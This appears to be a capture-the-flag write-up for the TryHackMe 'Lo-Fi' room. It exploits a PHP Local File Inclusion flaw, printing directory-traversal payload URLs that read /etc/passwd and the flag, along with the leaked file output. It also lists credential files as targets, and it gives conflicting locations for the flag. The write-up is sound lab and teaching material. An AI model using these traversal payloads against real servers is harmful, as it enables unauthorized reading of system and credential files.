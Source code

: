```yaml
---
title: "TryHackMe: Lo-Fi"
author: Vitorx
categories: [TryHackMe]
tags: [Tryhackme Writeup, LFI, web, File Inclusion]
render_with_liquid: false
img_path: /images/tryhackme_lo-fi/
image:
  path: /images/tryhackme_lo-fi/lofi_image.webp
---
```


The **Lo-Fi** challenge on TryHackMe is a CTF where you explore a vulnerable machine by exploiting a Local File Inclusion (LFI) vulnerability to capture flags, while practicing core ethical hacking skills. You can access it by clicking [here](https://tryhackme.com/room/lofi).

## Capture the flag

Our goal is to access the web application and read the flag located at the root of the file system.

Upon visiting the website http://10.10.152.81/, we found links to YouTube videos.

![Web 80 Index](/images/tryhackme_lo-fi/lofi-paginaInicial.webp){: width="1200" height="600"}

Upon further analysis, we realized that the video pages are dynamically loaded via the parameter `/?page=`.

![Web 80 Index](/images/tryhackme_lo-fi/lofi-paginaSecundaria.webp){: width="1200" height="600"}

The `page` parameter in the provided code is vulnerable to `Local File Inclusion (LFI)` due to improper handling of user input. This parameter allows dynamic inclusion of files, such as `/?page=relax.php`, creating an entry point for exploitation if the input is not properly sanitized.

This suggests that the backend likely uses a PHP function like include($_GET['page']); to dynamically include content. If there is no proper validation, an attacker can manipulate this parameter to access sensitive files on the server, such as:

/etc/passwd para informações de usuários do sistema. \
/var/www/html/config.php para credenciais da aplicação. \
/root/root.txt ou flag.txt para a flag da sala.

By using directory traversal `(with ../)`, it is possible to escalate access and read arbitrary files on the server.

Let’s try accessing the /etc/passwd file with LFI:

`http://lo-fi.thm/?page=../../../../etc/passwd`

![Web 80 Index](/images/tryhackme_lo-fi/lofi-etc.webp){: width="1200" height="600"}

The returned content will look something like this:

```console
root:x:0:0:root:/root:/bin/bash 
daemon:x:1:1:daemon:/usr/sbin:/bin/sh 
bin:x:2:2:bin:/bin:/bin/sh 
sys:x:3:3:sys:/dev:/bin/sh 
sync:x:4:65534:sync:/bin:/bin/sync 
games:x:5:60:games:/usr/games:/bin/sh 
man:x:6:12:man:/var/cache/man:/bin/sh lp:x:7:7:lp:/var/spool/lpd:/bin/sh 
mail:x:8:8:mail:/var/mail:/bin/sh 
news:x:9:9:news:/var/spool/news:/bin/sh 
uucp:x:10:10:uucp:/var/spool/uucp:/bin/sh 
proxy:x:13:13:proxy:/bin:/bin/sh 
www-data:x:33:33:www-data:/var/www:/bin/sh 
backup:x:34:34:backup:/var/backups:/bin/sh 
list:x:38:38:Mailing List Manager:/var/list:/bin/sh 
irc:x:39:39:ircd:/var/run/ircd:/bin/sh 
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/bin/sh 
nobody:x:65534:65534:nobody:/nonexistent:/bin/sh 
libuuid:x:100:101::/var/lib/libuuid:/bin/sh 
```
We can see that the root user is in the /etc/passwd file. Now, let's look for the flag inside it:

![Web 80 Index](/images/tryhackme_lo-fi/lofi-flag.webp){: width="1200" height="600"}

The flag was found at: `http://lo-fi.thm/?page=../../../flag.txt`

This confirms that the flag was located in /var/www/html.

## Conclusion

In this exploration, we used several techniques to exploit a Local File Inclusion (LFI) vulnerability:

✅ Identified the vulnerability by analyzing the /?page= parameter; \
✅ Manipulated the page parameter to traverse directories and access sensitive files; \
✅ Retrieved the /etc/passwd file to find information about system users; \
✅ Exploited directory traversal to locate and capture the flag inside /var/www/html/flag.txt.

This exercise highlights the importance of properly sanitizing user inputs to prevent LFI vulnerabilities, which can allow an attacker to read sensitive files and escalate privileges.
